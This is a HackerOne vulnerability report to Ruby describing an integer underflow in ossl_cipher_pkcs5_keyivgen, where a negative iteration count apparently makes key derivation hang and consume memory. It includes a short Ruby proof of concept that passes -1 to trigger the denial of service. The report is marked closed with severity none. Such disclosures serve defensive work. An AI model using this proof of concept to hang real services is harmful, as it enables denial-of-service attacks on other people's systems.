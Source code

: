 # Integer Underflow @ ossl_cipher_pkcs5_keyivgen 

## Report Details
- **Report ID**: 304115
- **URL**: https://hackerone.com/reports/304115
- **State**: Closed
- **Severity**: none
- **Submitted**: 2018-01-11T20:55:21.152Z
- **Disclosed**: 2018-02-23T07:18:57.620Z

## Reporter
- **Username**: finb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Integer Underflow @ ossl_cipher_pkcs5_keyivgen 
file : ext/openssl/ossl_cipher.c
affected parameter: iterations

INFO
Generates and sets the key/IV based on a password.
call-seq:
```
cipher.pkcs5_keyivgen(pass, salt = nil, iterations = 2048, digest = "MD5") -> nil
```


ANALYSIS
iter(int) in ossl_cipher_pkcs5_keyivgen  which holds iterations value is not validated before use.
therefore passed on to openssl library function EVP_BytesToKey which loops over
iter(iterations) using count
```
for (i = 1; i < (unsigned int)count; i++) {
  if (!EVP_DigestInit_ex(c, md, NULL))
  [code redacted]
]
```
if count aka iterations is negative this loop runs forever and therefore causing 
ruby to hang and eat up memory since allocation are performed during 
this loop and "i" can never be greater than count

POC
```
require 'digest'
require 'openssl'
require 'base64'

data = 'abc'
key = '1234567887654321'
iv = key[0..7]
cipher = OpenSSL::Cipher::Cipher.new('DES-EDE3-CBC') # or any other algorithm?

cipher.encrypt
cipher.pkcs5_keyivgen(key, iv, -1)
output = cipher.update(data)
output << cipher.final
```

CONFIGURATIONS
./ruby -v
ruby 2.6.0dev (2018-01-11 trunk 61764) [x86_64-linux]

openssl version
OpenSSL 1.0.1t  3 May 2016

## Impact

This result in a DDOS Attack

## Attachments
No attachments
